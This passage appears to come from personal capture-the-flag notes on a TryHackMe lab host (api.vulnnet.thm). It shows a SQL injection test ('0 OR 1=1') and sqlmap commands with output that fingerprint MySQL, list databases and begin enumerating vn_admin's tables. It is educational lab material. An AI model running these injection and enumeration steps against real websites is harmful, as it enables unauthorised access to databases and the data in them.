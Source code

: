 ![[Pasted image 20221231171817.png]]
- Checking `http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=2`
![[Pasted image 20221231171930.png]]
- Looks like a query to a database system
- Testing SQL injection with `0 OR 1=1` keep in mind `0` shows nothing
![[Pasted image 20221231172211.png]]
- As we see the SQL injection worked and the query returned the first page
## [[Sqlmap]] 
- Obtaining the database type and getting the banner
```sh
⚡ sqlmap -v --batch -u 'http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1' -b
[17:29:50] [INFO] the back-end DBMS is MySQL
[17:29:50] [INFO] fetching banner
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.0.12
banner: '5.7.38-0ubuntu0.18.04.1'
```
- Now that we know that we're dealing with MySQL let's try to get some information
```sh
⚡ sqlmap -v --batch -u 'http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1' -dbs
[17:37:14] [INFO] fetching database names
[17:37:14] [WARNING] reflective value(s) found and filtering out
available databases [3]:
[*] blog
[*] information_schema
[*] vn_admin
```
- So we have three databases:
	- `blog`
	- `information_schema`
	- `vn_admin`
- Let's enumerate `vn_admin` first
```sh
⚡ sqlmap -v --batch -u 'http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1' -D vn_admin --tables
[17:41:12] [INFO] fetching tables for database: 'vn_admin'
[17:41:12] [WARNING] reflective value(s) found and filtering out
Database: vn_admin
[48 tables]
+---------------------------------------------+
| backend_layout                              |
| be_dashboards                               |
| be_groups                                   |
| be_sessions                                 |
| be_users                                    |
| cache_adminpanel_requestcache               |
| cache_adminpanel_requestcache_tags          |
| cache_hash                                  |
| cache_hash_tags                             |
| cache_imagesizes                            |
| cache_imagesizes_tags                       |
| cache_pages                                 |
| cache_pages_tags                            |
| cache_pagesection                           |
| cache_pagesection_tags                      |
| cache_rootline                              |
| cache_rootline_tags                         |
| cache_treelist                              |
| fe_groups                                   |
| fe_sessions                                 |
```